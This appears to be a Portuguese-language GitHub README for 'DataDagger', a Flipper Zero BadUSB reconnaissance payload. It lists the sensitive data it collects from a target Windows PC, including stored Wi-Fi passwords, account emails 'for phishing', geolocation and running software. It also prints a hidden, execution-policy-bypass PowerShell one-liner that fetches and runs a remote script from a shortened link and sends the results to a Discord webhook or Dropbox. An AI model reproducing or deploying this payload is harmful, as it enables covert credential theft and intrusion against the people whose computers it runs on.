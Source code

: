 ![Logo](https://raw.githubusercontent.com/ClankPT/Flipper-Zero-BadUSB/main/Imagem/mini%20mini%20TH.png)

<!-- TABLE OF CONTENTS -->
<details>
  <summary>Table of Contents</summary>
  <ol>
    <li><a href="#Descrição">Descrição</a></li>
    <li><a href="#Vamos Começar">Vamos Começar</a></li>
    <li><a href="#Compatibilidade">Compatibilidade</a></li>
    <li><a href="#Histórico de Versões">Histórico de Versões</a></li>
    <li><a href="#Contacto">Contacto</a></li>
    <li><a href="#Conhecimentos">Conhecimentos</a></li>
  </ol>
</details>

# DataDagger

Script de reconhecimento avançado a um computador alvo, capaz de mostrar muita informação sensível

## Descrição

Este programa foi desenvolvido para coletar o máximo de dados possível para fins de reconhecimento. Isso inclui

* Hosts versão do PowerShell (para saber quais comandos podem ser executados)
* Nome associado à conta da Microsoft
* Estejam eles no grupo Admin ou não
* O e-mail associado à conta da Microsoft (para possibilidades de phishing)
* A geolocalização (saber localização aproximada)
* Redes Wifi próximas (possível movimento lateral)
* Informações de rede (endereço IP local e público; endereço MAC; RDP ativado?)
* Perfis WLAN (lista de SSIDs e passwords armazenadas no PC)
* Interfaces de rede (com o que elas estão ligadas)
* Informações do sistema (fabricante, modelo, número de série, sistema operacional, CPU, RAM, BIOS da placa-mãe)
* Utilizadores locais (contas no sistema com nome de usuário, nome associado à conta microsoft e SID)
* Informações sobre os discos rígidos 
* Dispositivos COM e seriais ( dispositivo ligados ou emparelhados com o PC)
* Conexões TCP ativas (varredura de porta)
* Processos, serviços, software e drivers (o que está a ser executado no computador e  que podemos explorar? processos ativos/parados)
* Informações sobre as especifições sobre o PC
* Lista de programas do PC
* Tree (exploração de toda a tree do PC)
## Vamos Começar

### Compatibilidade

* Dropbox ou Discord
* Windows 10,11

<p align="right">(<a href="#top">voltar</a>)</p>

### Execução
* Conectar ao dispositivo
* Esperar alguns segundos e verificar o Discord

`$dc` é a variável que guarda no webhook do discord 

`$db` é a variável que guarda na dropbox 

Um destes deve ser prenchido para os dados serem recolhidos
```
powershell -w h -NoP -Ep Bypass $dc='';$db='';irm bit.ly/ClankPT | iex
```

<p align="right">(<a href="#top">voltar</a>)</p>

## Contribuição

* Clank

* Luís Lopes

* Tiago Casal

<p align="right">(<a href="#top">voltar</a>)</p>

## Histórico de Versões

* 0.1
    * Ainda em desenvolvimento ...

<p align="right">(<a href="#top">voltar</a>)</p>

<!-- CONTACT -->
## Contacto

<h2 align="center">📱 My Socials 📱</h2>
<div align=center>
<table>
  <tr>
    <td align="center" width="96">
      <a href="https://discord.gg/4BURDrRMBZ">
        <img src=https://github.com/I-Am-Jakoby/I-Am-Jakoby/blob/main/img/discord-v2-svgrepo-com.svg width="48" height="48" alt="Jsonnet" />
      </a>
      <br>Discord
    </td>
  </tr>
</table>
</div>



<p align="right">(<a href="#top">voltar</a>)</p>

<!-- ACKNOWLEDGMENTS -->
## Conhecimentos

* [Hak5](https://hak5.org/)
* [MG](https://github.com/OMG-MG)

<p align="right">(<a href="#top">voltar</a>)</p>
